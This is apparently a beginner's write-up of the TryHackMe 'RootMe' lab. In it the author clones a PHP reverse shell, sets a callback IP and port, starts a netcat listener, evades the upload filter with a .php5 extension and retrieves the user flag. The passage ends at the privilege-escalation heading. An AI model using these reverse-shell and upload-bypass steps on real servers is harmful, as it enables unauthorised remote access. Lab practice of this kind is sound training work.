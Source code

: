 <pre class="wp-block-code">```
$ mkrdir TryHackMe-rootme

$ git clone <https://github.com/pentestmonkey/php-reverse-shell.git> TryHackMe-rootme

$ nano php-reverse-shell.php

```
```

I’m taking the time to read the program (usually I don’t). It’s recommending to go to [pentestmonkey.net](http://pentestmonkey.net/) for help, looks like a great resource!

So `netcat` needs to be running to listen and ‘catch’ the reverse shell. Cool. Let’s setup `nc`, edit and upload the file

```
<pre class="wp-block-code">```
$ip = '10.4.33.98';  // CHANGE THIS
$port = 908;       // CHANGE THIS

$ sudo nc -v -n -l -p 908

```
```

After tinkering around, not sure why, but the file extension of the reverse shell file had to be changed from `.php` to `.php5` … my guess is this tells the website it’s PHP version 5 which it can work with? Not 100% sure.

I started cheating by the way from this [video](https://youtu.be/eDGI1RCkp8E). Just to get past this step.

Once the reverse shell was uploaded, I went to `<ip>/uploads/` to execute the file and `nc` picked it up, wow! My heart actually dropped a bit, like this is remote access from an uploaded file. WTH!

So I had to cheat a bit more on this one, annoying as I could’ve figured it out if I had more patience.

```
<pre class="wp-block-code">```
$ find / -type f -name user.txt 2>/dev/null

/var/ww/user.txt

$ cat /var/ww/user.txt

THM{*}

```
```

## Privilege Escalation

*Now that we have a shell, let’s escalate our privileges to root.*

Cool. Let’s go.
